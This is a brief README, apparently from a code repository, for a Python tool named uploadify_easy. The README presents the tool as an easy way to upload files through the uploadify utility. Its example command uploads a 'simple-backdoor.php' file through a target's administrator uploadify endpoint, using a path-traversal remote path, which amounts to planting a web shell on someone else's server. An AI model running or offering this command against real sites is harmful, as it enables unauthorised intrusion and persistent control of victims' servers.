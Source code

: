 # uploadify_easy
Tool created to upload a file with the uploadify utility in an easy way.


## Usage
```python3 uploadify_easy.py File2Upload RemotePath TargetUrl```
### Example
``` python3 uploadify_easy.py simple-backdoor.php ../../../../../../../tmp/ http://<target>/administrator/js/uploadify/uploadify.php ```
